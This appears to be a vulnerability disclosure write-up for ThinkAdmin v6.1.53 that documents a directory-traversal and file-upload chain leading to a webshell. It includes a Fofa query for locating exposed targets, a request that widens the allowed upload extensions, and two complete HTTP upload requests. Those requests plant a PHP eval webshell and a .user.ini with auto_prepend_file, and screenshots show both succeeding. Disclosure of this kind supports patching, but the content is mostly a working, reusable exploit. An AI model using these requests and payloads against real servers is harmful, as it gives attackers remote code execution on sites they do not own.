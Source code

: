 ThinkAdmin directory traversal+file upload getshell



Project Introduction

ThinkAdmin is a product that follows [MIT]（ https://mit-license.org/ ）Protocol open source rapid development framework, based on the latest version of  ThinkPHP6 , a minimalist backend management system (compatible with ThinkPHP8)

Official website: https://thinkadmin.top/



Audit version: ThinkAdmin Version v6.1.53

![image](https://github.com/1dreamGN/CVE/assets/112082417/35545e1b-e345-40e9-b502-898b98944dc9)


 

Fofa : body="/admin/api.plugs/script"

![image](https://github.com/1dreamGN/CVE/assets/112082417/32f29b86-1841-441c-9b91-253dc1e53b44)


Vulnerability: Directory traversal+file upload=getshell
Install Composer on the official website
After installation, log in and enter the background
Firstly, set the uploadable suffix for the backend

![image](https://github.com/1dreamGN/CVE/assets/112082417/5beca66e-6158-4642-9bc4-7ea68c022b31)

```
http://localhost/admin/config/storage.html?spm=m-1-2-3
param：storage%5Bname_type%5D=xmd5&storage%5Blink_type%5D=none&storage%5Ballow_exts%5D=doc%2Cgif%2Cico%2Cjpg%2Cmp3%2Cmp4%2Cp12%2Cpem%2Cpng%2Czip%2Crar%2Cxls%2Cxlsx%2Chtaccess%2Cini&storage%5Blocal_http_protocol%5D=follow&storage%5Blocal_http_domain%5D=&storage%5Btype%5D=local
```
![image](https://github.com/1dreamGN/CVE/assets/112082417/5d2dde5f-24a3-4022-b7b2-6f7405dfdc08)


First upload a Trojan with any file content as webshell

```
POST /admin/api.upload/file HTTP/1.1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUB3l9pNDT4UzMSU

Cookie: user cookie

Host: IP：PORT

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="key"

 

..\./1.zip

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="safe"

 

0

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="uptype"

 

local

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="file"; filename="1.zip"

Content-Type: image/png

 

<?php @eval($_POST[1]);?>

------WebKitFormBoundary3VyVEPpvQynFo76H--
```

![image](https://github.com/1dreamGN/CVE/assets/112082417/df639676-98ae-4e83-bbf4-25491472ea26)


Construct Payload Upload

http://localhost/admin/api.upload/file

```
POST /admin/api.upload/file HTTP/1.1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUB3l9pNDT4UzMSU

Cookie: user cookie

Host: IP：PORT

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="key"

 

..\./.user.ini

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="safe"

 

0

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="uptype"

 

local

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="file"; filename="1.ini"

Content-Type: image/png

 

auto_prepend_file=1.zip

------WebKitFormBoundary3VyVEPpvQynFo76H--
```

![image](https://github.com/1dreamGN/CVE/assets/112082417/6e90c2b4-8c5e-44a4-945c-cb98e30a86f6)

![image](https://github.com/1dreamGN/CVE/assets/112082417/94ec0974-5103-4735-b179-24af001735e1)

You can see that everything has been uploaded successfully

![image](https://github.com/1dreamGN/CVE/assets/112082417/0ebdec09-b37b-4f7f-a8d8-066c0b84c734)


 

Webshell also successfully parsed
